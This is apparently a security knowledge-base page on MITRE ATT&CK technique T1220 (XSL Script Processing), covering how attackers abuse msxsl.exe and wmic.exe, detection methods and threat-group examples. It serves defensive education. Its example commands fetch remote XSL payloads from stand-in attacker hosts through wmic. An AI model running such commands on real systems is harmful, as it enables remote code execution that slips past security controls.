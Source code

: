 ```yaml
---
description: XSL Script Processing [T1220]
icon: lock
---
```


# XSL Script Processing

## Information

* Name: XSL Script Processing
* ID: T1220
* Tactics: [TA0005](./)

## Introduction

XSL Script Processing (T1220) is a technique documented within the MITRE ATT\&CK framework that involves attackers abusing Extensible Stylesheet Language (XSL) files for malicious purposes. XSL files are typically used to transform XML documents into other formats. However, adversaries exploit the scripting capabilities within XSL files to execute arbitrary code, evade detection, and bypass security controls.

## Deep Dive Into Technique

XSL Script Processing leverages legitimate functionality provided by XSL processors, such as Microsoft's msxsl.exe, to execute arbitrary scripts embedded within XSL files. Attackers typically follow these steps:

1. **Preparation of Malicious XSL Files**:
   * Attackers craft malicious XSL files containing embedded scripts (e.g., JavaScript, VBScript).
   * These scripts often include commands designed to download additional payloads, execute binaries, or perform reconnaissance.
2. **Execution via Legitimate Utilities**:
   * Adversaries leverage trusted Windows utilities like msxsl.exe or wmic.exe to process XSL files and execute embedded scripts.
   *   Example command using msxsl.exe:

       ```
       msxsl.exe payload.xml malicious.xsl
       ```
   *   Example command using wmic.exe:

       ```
       wmic process get brief /format:"http://malicious-server.com/malicious.xsl"
       ```
3. **Bypassing Security Controls**:
   * XSL Script Processing is often overlooked by traditional antivirus and endpoint detection tools, as it leverages legitimate system utilities.
   * It can evade application whitelisting, since the utilities used (msxsl.exe, wmic.exe) are typically allowed and trusted.
4. **Persistence and Execution Mechanisms**:
   * Attackers may schedule tasks or scripts to regularly invoke malicious XSL files, ensuring persistence on compromised systems.
   * Scripts embedded in XSL files can be dynamically updated, providing attackers flexibility and adaptability in their attacks.

## When this Technique is Usually Used

XSL Script Processing is typically observed in various attack stages and scenarios, including:

* **Initial Access and Execution**:
  * Attackers may utilize phishing emails or malicious attachments containing XSL files.
  * Malicious documents or scripts may invoke XSL transformations to execute embedded payloads.
* **Defense Evasion**:
  * Attackers commonly use this technique to bypass application whitelisting, antivirus detection, and endpoint security solutions.
  * It leverages trusted utilities, making detection more challenging.
* **Persistence**:
  * Attackers may establish persistence by scheduling tasks or scripts that regularly execute malicious XSL files.
* **Command and Control (C2)**:
  * Malicious XSL scripts can establish communication channels with attacker-controlled servers, enabling remote command execution.

## How this Technique is Usually Detected

Detection of XSL Script Processing involves multiple methods and tools, including:

* **Monitoring Process Execution**:
  * Monitor execution of utilities such as `msxsl.exe` and `wmic.exe` for unusual or unexpected command-line arguments referencing remote locations or suspicious files.
* **Endpoint Detection and Response (EDR)**:
  * EDR solutions can detect anomalous behavior involving XSL transformations, particularly when scripts execute external payloads or communicate with remote servers.
* **File Integrity Monitoring (FIM)**:
  * FIM tools can detect unauthorized creation or modification of XSL files on endpoints.
* **Network Traffic Analysis**:
  * Inspect network traffic for unusual HTTP requests or downloads of XSL files from external or suspicious domains.
* **Specific Indicators of Compromise (IoCs)**:
  *   Suspicious command-line invocations:

      ```
      msxsl.exe suspicious.xml malicious.xsl
      wmic.exe process get brief /format:"http://malicious-server.com/malicious.xsl"
      ```
  * Unusual XSL files containing embedded scripting languages (JavaScript, VBScript).
  * Unexpected outbound HTTP requests retrieving XSL files from unknown domains or IP addresses.

## Why it is Important to Detect This Technique

Early detection of XSL Script Processing is critical due to its potential impact on systems and networks, including:

* **Bypassing Security Controls**:
  * Attackers leverage legitimate system utilities, reducing the effectiveness of traditional antivirus and whitelisting solutions.
* **Execution of Arbitrary Code**:
  * Embedded scripts within XSL files can execute arbitrary commands, leading to unauthorized access, data exfiltration, or additional malware deployment.
* **Persistence and Long-term Compromise**:
  * Attackers using this technique can establish persistent footholds within networks, complicating remediation efforts.
* **Data Exfiltration and Espionage**:
  * Malicious scripts can facilitate data theft, intellectual property breaches, or espionage activities.
* **Increased Attack Surface**:
  * Overlooking this technique enables attackers to exploit trusted utilities, expanding their operational capabilities and reducing detection opportunities.

## Examples

Real-world examples of XSL Script Processing observed in attacks include:

* **FIN7 Attack Group**:
  * FIN7 (also known as Carbanak) utilized malicious XSL files processed by `wmic.exe` to execute payloads during targeted attacks against financial institutions.
  *   Attackers used commands similar to:

      ```
      wmic os get /format:"https://attacker-controlled-domain.com/payload.xsl"
      ```
  * Impact: Data theft, financial fraud, and persistent network compromise.
* **APT32 (OceanLotus)**:
  * OceanLotus leveraged XSL script processing as part of their attack chain to evade detection and execute malicious payloads.
  * Malicious XSL files contained embedded JavaScript to download and execute backdoor payloads.
  * Impact: Espionage, data exfiltration, persistent access to sensitive networks.
* **Operation Cobalt Kitty**:
  * Attackers utilized XSL script processing as a method to execute payloads and maintain persistence within targeted organizations.
  * Malicious XSL scripts were used in conjunction with legitimate Windows utilities, complicating detection and remediation.
  * Impact: Persistent compromise, data theft, and espionage activities.

These examples highlight the versatility and effectiveness of XSL Script Processing as a technique used by sophisticated threat actors to achieve their objectives.
